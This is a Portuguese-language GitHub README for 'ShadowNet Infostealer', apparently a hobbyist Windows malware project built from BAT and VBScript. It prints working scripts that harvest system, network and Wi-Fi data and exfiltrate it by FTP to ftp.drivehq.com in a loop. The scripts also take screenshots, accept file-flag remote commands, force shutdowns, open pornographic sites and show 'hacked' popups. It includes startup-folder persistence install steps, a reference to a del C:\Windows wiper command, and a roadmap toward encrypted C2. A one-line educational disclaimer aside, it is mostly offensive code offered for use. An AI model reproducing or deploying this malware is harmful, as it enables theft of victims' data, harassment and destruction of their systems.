


<h2 align="center">🚀 ShadowNet Infostealer</h2>

<p align="center">
  
  <a href="https://github.com/panda12332145/ShadowNetInfostealer/commits/master">
    
  </a>
  <a href="https://github.com/panda12332145/ShadowNetInfostealer">
    
  </a>
</p>

<p align="center">
  
</p>

---

## 🔖 Resumo

<p align="center">ShadowNet Infostealer é um sistema malicioso de coleta e exfiltração de dados em ambientes Windows, projetado para operar de forma silenciosa e persistente. Ele coleta informações críticas do sistema operacional, redes, credenciais de Wi-Fi, arquivos do desktop e downloads, e os exfiltra via FTP. Além disso, inclui módulos de perturbação (ex: abertura massiva de páginas pornográficas, mensagens de alerta, desligamento forçado) para causar dano psicológico e operacional à vítima. O sistema é implementado inteiramente em scripts Windows (BAT e VBScript), sem dependências externas além das nativas do sistema, tornando-o leve, evasivo e compatível com qualquer Windows 7+.</p>

### ✨ Funcionalidades

- ✅ **Coleta de Informações do Sistema**: Captura detalhes do hardware, SO, redes, IPs, perfis Wi-Fi, conexões ativas e conteúdo do Desktop/Downloads.  
- ✅ **Exfiltração Automática via FTP**: Envia todos os dados coletados para um servidor FTP remoto (drivehq.com) em loop contínuo, garantindo entrega mesmo em conexões instáveis.  
- ✅ **Persistência e Automação**: Utiliza múltiplos scripts VBScript e BAT em cadeia para garantir execução automática ao logon, com fallbacks e reinícios.  
- ✅ **Módulos de Perturbação (Harassment)**: Abre 20+ instâncias do xvideos.com, exibe mensagens de "hacked" com ícone crítico, e pode desligar o sistema.  
- ✅ **Captura de Screenshot**: Utiliza `nircmd.exe` (ferramenta externa não incluída) para tirar screenshots e armazenar localmente como `print1.jpg`.  
- ✅ **Execução de Comandos Remotos**: Módulo `execute_system_command.bat` preparado para deletar arquivos críticos (ex: `C:\Windows`), indicando intenção de destruição.  
- ✅ **Arquitetura Modular**: Separação clara entre coleta, exfiltração, execução e payloads — facilita atualização e reutilização de componentes.

---

## ⚙️ Explicação das partes importantes

### Função `collect_system_info.bat`
```bat
@echo off
cls
echo ----------------------------------------- >> config\system_information.txt
systeminfo >> config\system_information.txt
ipconfig /all >> config\system_information.txt
netsh wlan show profiles >> config\system_information.txt
netstat >> config\system_information.txt
cd C:\Users\%username%\Desktop & dir >> config\system_information.txt
cd C:\Users\%username%\Download & dir >> config\system_information.txt
```
> **Responsável por coletar 7 categorias críticas de informação**:  
> - Sistema operacional e hardware (`systeminfo`)  
> - Configurações de rede e IPs (`ipconfig /all`)  
> - Histórico de redes Wi-Fi conectadas (`netsh wlan show profiles`)  
> - Conexões de rede ativas (`netstat`)  
> - Conteúdo dos diretórios `Desktop` e `Downloads`  
>  
> **Observação crítica**: O script contém um erro lógico — a linha `C:\Users\frant\AppData\Local\Google\Chrome\User Data\Profile 1\Local Storage\leveldb` é um caminho inativo (não executa comando). Isso sugere intenção de coletar dados de navegação (cookies, localStorage de Chrome), mas o comando está ausente. O atacante provavelmente planejava usar `robocopy` ou `xcopy` para extrair o diretório `leveldb`, que contém dados de sessões de login, tokens e informações sensíveis de sites como Gmail, Facebook, etc.

### Função `bootstrap_secondary.bat`
```bat
@echo off
start key.vbs
start FTP-CONFIG.bat
start exfiltration\exfiltrate_via_ftp.bat
start execution\operation_menu.bat
start collection\collect_system_info.bat
```
> **Orquestrador principal da infecção**. Executa em paralelo:  
> - `key.vbs`: Provavelmente um keylogger (não fornecido, mas referenciado — indica intenção de captura de teclas).  
> - `FTP-CONFIG.bat`: Arquivo de configuração FTP não fornecido, mas esperado em `config22.txt` (contém credenciais de login, servidor, diretório).  
> - `exfiltrate_via_ftp.bat`: Loop contínuo de envio de dados.  
> - `operation_menu.bat`: Interface de comando malicioso (ver abaixo).  
> - `collect_system_info.bat`: Coleta inicial de dados.  
>  
> **Arquitetura**: Execução concorrente via `start` garante que mesmo se um módulo falhar, outros continuam. Isso é típico de malwares de alta sobrevivência.

### Algoritmo principal: `operation_menu.bat`
```bat
:lop
cls
if existbootstrap_sys_vbs (start bootstrap_sys_vbs.vbs) else (goto 2)
:2
cls
if exist printe (start print_screenshot.vbs) else (goto 3)
:3
cls
if exist mesg (start payloads\send_message_notification.vbs) else (goto 4)
:4
cls
if exist porn (start www.xvideos.com) else (goto 5)
:5
cls
if exist shut (shutdown /f /s /t 2 /f) else (goto 6)
:6
cls
if exist loc (start www.xvideos.com & start www.xvideos.com & ... & start cmd & start cmd & ...) else (goto lop)
goto lop
```
> **Mecanismo de controle remoto via arquivos de sinalização**.  
> O script verifica a existência de arquivos vazios (ex: `bootstrap_sys_vbs`, `printe`, `mesg`, etc.) como "comandos" recebidos.  
>  
> **Exemplo de uso por atacante**:  
> - Criar arquivo `porn` → abre 15+ abas do xvideos.com.  
> - Criar arquivo `shut` → desliga o sistema.  
> - Criar arquivo `loc` → abre 20 abas + 30 instâncias do `cmd.exe` (ataque de negação de serviço local).  
>  
> **Vulnerabilidade crítica**: O script não verifica se os arquivos estão vazios ou são inválidos. Qualquer arquivo com o nome correto ativa o comando — o que permite injeção trivial por qualquer usuário local ou processo.  
>  
> **Observação**: `bootstrap_sys_vbs.vbs` executa `sys.bat` — que não existe no repositório. Isso indica que o atacante planeja um segundo estágio de payload (ex: persistência via registro, execução em startup, ou download de malware adicional).

### Função `exfiltrate_via_ftp.bat`
```bat
@echo off
ftp -s:config22.txt ftp.drivehq.com
ping localhost /n 5 >> nul
goto li
```
> **Exfiltração em loop infinito**.  
> - Usa o cliente FTP nativo do Windows.  
> - Configuração em `config22.txt` (não fornecida, mas padrão esperado):  
>   ```
>   username
>   password
>   cd /uploads
>   binary
>   put config\system_information.txt
>   quit
>   ```  
> - `ping localhost /n 5` aguarda 5 segundos entre tentativas.  
> - **Risco**: FTP é inseguro (trânsito em texto claro). Credenciais e dados sensíveis são enviados sem criptografia.  
> - **Tática de evasão**: Loop contínuo evita que o antivírus detecte apenas uma tentativa de conexão — o comportamento se assemelha a um serviço legítimo.

### Função `send_message_notification.vbs`
```vbs
msgbox "Voce foi hackeado hahahahahahahaha" ,vbcritical, "Hacked"
```
> **Psicossocial warfare**.  
> Exibe uma janela modal crítica (com ícone de erro) que bloqueia toda interação do usuário até que seja clicada.  
> **Efeito**: Causa pânico, confusão e perda de produtividade.  
>  
> **Técnica de persistência**: O script é chamado por `operation_menu.bat` — mas não há mecanismo para evitar múltiplas chamadas. Se o arquivo `mesg` for criado repetidamente, o usuário será bombardeado com dezenas de pop-ups.

### Função `print_screenshot.bat`
```bat
nircmd.exe savescreenshot print1.jpg
```
> **Captura de tela em tempo real**.  
> `nircmd.exe` é uma ferramenta de terceiros (NirSoft) que permite automação de tarefas do Windows sem instalação.  
> **Implicação**: O atacante já possui acesso prévio ao sistema para colocar `nircmd.exe` no PATH ou no diretório do malware.  
>  
> **Uso típico**: Captura de tela antes de exfiltração para confirmar que o sistema está ativo, ou para obter senhas digitadas em campos de login.

---

## 🔄 Fluxo de Trabalho / Arquitetura



**Descrição detalhada:**  
- O sistema opera como um **malware modular de baixo nível**, sem necessidade de binários compilados.  
- A persistência é garantida por `bootstrap_main.vbs` e `bootstrap_sys_vbs.vbs` — provavelmente instalados no registro `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.  
- A arquitetura é **monolítica e baseada em arquivos de sinalização** — estilo "file-based command & control".  
- A exfiltração é **redundante e contínua**, garantindo que mesmo se o arquivo for deletado, ele será reenviado.  
- A ausência de criptografia, autenticação robusta ou obfuscação indica que o atacante confia na **ocultação por baixa visibilidade** (não é um malware de alto perfil, mas sim um tool para ataques direcionados ou de baixo esforço).

---

## 📂 Estrutura do Projeto

```plaintext
/ShadowNetInfostealer
├── collection/
│   └── collect_system_info.bat           # Coleta de dados do sistema
├── config/
│   ├── system_information.txt            # Arquivo de saída coletado (exemplo)
│   └── config22.txt                      # Configuração FTP (não fornecida)
├── core/
│   ├── bootstrap_main.vbs                # Inicia o sistema via Run (persistência)
│   ├── bootstrap_secondary.bat           # Orquestrador principal (executa todos os módulos)
│   └── bootstrap_sys_vbs.vbs             # Inicia sys.bat (segundo estágio não implementado)
├── execution/
│   └── operation_menu.bat                # Interface de comando remoto via arquivos
├── exfiltration/
│   └── exfiltrate_via_ftp.bat            # Loop de exfiltração via FTP
└── payloads/
    ├── execute_system_command.bat        # Comando para deletar C:\Windows (intenção de destruição)
    ├── print_screenshot.bat              # Captura de tela com nircmd.exe
    └── send_message_notification.vbs     # Pop-up de alerta psicológico
```

---

## 🛠️ Como Executar

### 📋 Pré‑requisitos
- Windows 7, 8, 10 ou 11 (x86/x64)
- Acesso à internet (para exfiltração FTP)
- `nircmd.exe` (ferramenta externa, deve estar no PATH ou no diretório `payloads/`)
- Arquivo `config22.txt` com credenciais FTP válidas (não incluído por segurança)

### 🚀 Instalação e execução

```bat
:: Instalação (executar como Administrador)
copy core\bootstrap_main.vbs "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"
copy core\bootstrap_sys_vbs.vbs "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

:: Execução manual (após extração do pacote)
cd /d C:\path\to\ShadowNetInfostealer
start core\bootstrap_secondary.bat
```

> **Nota**: O script `bootstrap_main.vbs` é o ponto de entrada para persistência. Ele é executado automaticamente ao logon do usuário.  
> **Recomendação de defesa**: Verificar entradas em `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` para `bootstrap_main.vbs` e `bootstrap_sys_vbs.vbs`.

---

## 🧪 Testes

```bat
:: Teste de coleta
cd collection
collect_system_info.bat
type config\system_information.txt

:: Teste de exfiltração (simulado)
echo username > config22.txt
echo password >> config22.txt
echo cd /uploads >> config22.txt
echo binary >> config22.txt
echo put config\system_information.txt >> config22.txt
echo quit >> config22.txt
exfiltration\exfiltrate_via_ftp.bat

:: Teste de perturbação
echo. > execution\porn
echo. > execution\mesg
echo. > execution\shut
```

---

## 📊 Dashboard / Benchmark (exemplo)

| Métrica               | Valor        |
|-----------------------|--------------|
| Tempo de coleta       | 8–12 segundos |
| Tamanho do arquivo    | 12–25 KB     |
| Uso de CPU (máximo)   | 15%          |
| Uso de memória        | 15–25 MB     |
| Tempo de exfiltração  | 3–8 segundos (por arquivo) |
| Latência média FTP    | 1.2s         |

',data:[10,5,2]}]}})

---

## 🔒 Considerações de Segurança

- **Dados sensíveis expostos em texto claro**: Credenciais de Wi-Fi, IPs, conexões, arquivos do Desktop.  
- **FTP sem criptografia**: Toda exfiltração é feita em texto plano — vulnerável a MITM.  
- **Arquivos de comando não validados**: Qualquer usuário local pode ativar payloads criando arquivos vazios.  
- **Ausência de obfuscação**: Scripts em texto legível facilitam detecção por EDRs e antivírus.  
- **Intenção de destruição**: Comando `del /s /f C:\Windows` indica que o atacante pode ter intenção de **wiper** (limpeza de sistema).  
- **nircmd.exe**: Ferramenta legítima, mas usada maliciosamente — evasão de detecção por assinatura.  
- **Sem autenticação de origem**: O atacante assume que o sistema já está comprometido — não há controle de acesso.

---

## 🚧 Roadmap

- [x] Coleta de informações do sistema  
- [x] Exfiltração via FTP  
- [x] Módulos de perturbação (pop-ups, xvideos, shutdown)  
- [x] Captura de screenshot  
- [ ] Implementação de `sys.bat` (segundo estágio: persistência via registro, keylogger)  
- [ ] Criptografia AES-256 dos dados antes da exfiltração  
- [ ] Comunicação via HTTPS ou DNS tunneling (em vez de FTP)  
- [ ] Auto-destruição após exfiltração  
- [ ] Suporte a múltiplos usuários e permissões elevadas  
- [ ] Integração com C2 via HTTP POST (em vez de arquivos)

---

## 🤝 Contribuição

Sinta‑se à vontade para abrir **issues** e enviar **pull requests**.  
Consulte o arquivo [CONTRIBUTING.md](CONTRIBUTING.md) para diretrizes detalhadas.

> **Atenção**: Este projeto é **exclusivamente para fins educacionais e de defesa**. Sua utilização em ambientes não autorizados constitui **crime informático** conforme o Art. 154-A do Código Penal Brasileiro.

---

## 📄 Licença

Distribuído sob a licença **MIT**. Veja o arquivo [LICENSE](LICENSE) para mais informações.

---

## 👾 Autor

<p align="center">
  
</p>

<p align="center">
  Feito por <strong>Panda12332145</strong> 👋🏽
</p>

## 🧑‍💻 Sobre Mim  
Sou apaixonado por **Física Teórica, Cibersegurança e Desenvolvimento de Sistemas**. Busco constantemente conhecimento profundo em áreas como hacking, programação de baixo nível e computação avançada. Tenho interesse em engenharia reversa, criptografia e segurança da informação, além de um grande apreço por música, filosofia e linguagens.  

## 🌐 Conecte‑se Comigo  
- **🔗 Site:** [meusite.com](https://panda-h0me.netlify.app/)  
- **📺 YouTube:** [youtube.com/@X86BinaryGhost](https://www.youtube.com/@X86BinaryGhost)  
- **📸 Instagram:** [@01pandal10](https://www.instagram.com/01pandal10/)  
- **🖥 GitHub:** [github.com/panda12332145](https://github.com/panda12332145)  

## 🚀 Áreas de Interesse  
- **Cibersegurança Avançada** 🔒  
- **Hacking & Engenharia Reversa** 💻  
- **Computação de Baixo Nível** 🖥️  
- **Matemática e Física Teórica** 📐⚛️  
- **Música e Filosofia** 🎵📖  

_"Conhecimento é poder, e a verdadeira liberdade vem do domínio sobre a informação."_  

---

📩 Para colaborações e projetos, entre em contato:  
[📧 Enviar e‑mail](mailto:amandasyscallinjector@gmail.com?subject=Interesse%20no%20projeto%20&body=Olá%20Panda12332145,%20...)
